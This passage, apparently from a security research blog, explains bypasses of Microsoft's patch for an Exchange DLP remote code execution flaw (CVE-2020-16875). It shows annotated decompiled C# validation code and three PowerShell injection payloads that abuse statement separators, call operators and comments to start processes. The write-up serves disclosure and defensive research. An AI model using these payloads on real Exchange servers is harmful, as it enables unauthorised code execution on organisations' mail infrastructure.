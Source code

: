 ```cs
        if ((from token in collection
        where token.Type == PSTokenType.Command
        select token).ToList<PSToken>().Count > 1) // just blocks multiple command tokens? what about not statement separators, comments, etc?
        {
            throw new DlpPolicyParsingException(Strings.DlpPolicyMultipleCommandsNotSupported(cmdlet));
        }
    }
    bool flag = false;
    foreach (KeyValuePair<string, string> keyValuePair in requiredParameters)
    {
        if (cmdlet.StartsWith(keyValuePair.Key, StringComparison.InvariantCultureIgnoreCase)) // very weak, we can use statement seperators to bypass this
        {
            if (!Regex.IsMatch(cmdlet, keyValuePair.Value, RegexOptions.IgnoreCase))  // we can use comment tokens to slip past this
            {
                throw new DlpPolicyParsingException(Strings.DlpPolicyMissingRequiredParameter(cmdlet, keyValuePair.Value));
            }
            flag = true;
        }
    }
    if (!flag)
    {
        throw new DlpPolicyParsingException(Strings.DlpPolicyNotSupportedCmdlet(cmdlet));
    }
}
```

...then you will realize that you can execute inline code in the powershell console. So an attacker could have still called static methods from fixed types or (ab)use statement seperators `;` to bypass the patch. The other thing to note is that the patch didn't block inline comments meaning attackers could comment out the `-DlpPolicy` regex check. Such examples are:

`neW-tRaNsPoRtRuLe $([Diagnostics.Process]::Start("cmd", "/c mspaint")) #-dLpPoLiCy`

or

`neW-tRaNsPoRtRuLe 360Vulcan; [Diagnostics.Process]::Start("cmd", "/c mspaint") #-dLpPoLiCy`

Well done to Yasar, Leonard and [Markus Vervier](https://twitter.com/marver) for discovering that particular patch bypass which they also [blogged about](https://x41-dsec.de/security/advisory/exploit/research/2020/12/21/x41-microsoft-exchange-rce-dlp-bypass/)! The other bypass I found was that it was possible to use powershell [call operators](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7#call-operator-) using the `&` symbol to call powershell cmdlets. By default you can't call cmdlets that require an argument but since we have the statement seperator we could just append the arguments to the variable call as needed!

`neW-tRaNsPoRtRuLe 360Vulcan; $poc='New-object'; $i = & $poc System.Diagnostics.ProcessStartInfo; $i.UseShellExecute = $true; $i.FileName="cmd"; $i.Arguments="/c mspaint"; $r = & $poc System.Diagnostics.Process; $r.StartInfo = $i; $r.Start() #-dLpPoLiCy`


[^1]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875)
[^2]: [https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/](https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/)
[^3]: [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1)
[^4]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132)
[^5]: [https://en.wikipedia.org/wiki/Software_as_a_service](https://en.wikipedia.org/wiki/Software_as_a_service)